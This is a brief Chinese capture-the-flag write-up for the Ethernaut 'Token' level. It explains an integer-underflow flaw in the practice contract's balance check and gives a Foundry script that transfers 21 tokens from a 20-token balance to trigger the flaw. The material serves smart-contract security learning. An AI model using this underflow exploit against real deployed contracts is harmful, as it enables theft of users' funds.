 # Token

https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407

通过观察合约，发现对余额进行计算时，没有做溢出或下溢校验。玩家初始余额是20，只需要转账大于20，小于$2^{256} + 20$即可。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

pragma experimental ABIEncoderV2;

import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
import {Token} from "../src/Token.sol";

contract TokenScript is Script {
    Token public token;
    address public player;

    function setUp() public {
        token = Token(0x0887300dfEDAc8F22e27C8024eD36B91c99642E6);
        player = 0xaCab087f7f0977c31d68E8BAe117069a90Dc6574;
    }

    function run() public {
        vm.startBroadcast();
        console.log(token.balanceOf(player));

        address other = makeAddr("other");
        token.transfer(other, 21);

        console.log(token.balanceOf(player));

        vm.stopBroadcast();
    }
}
```
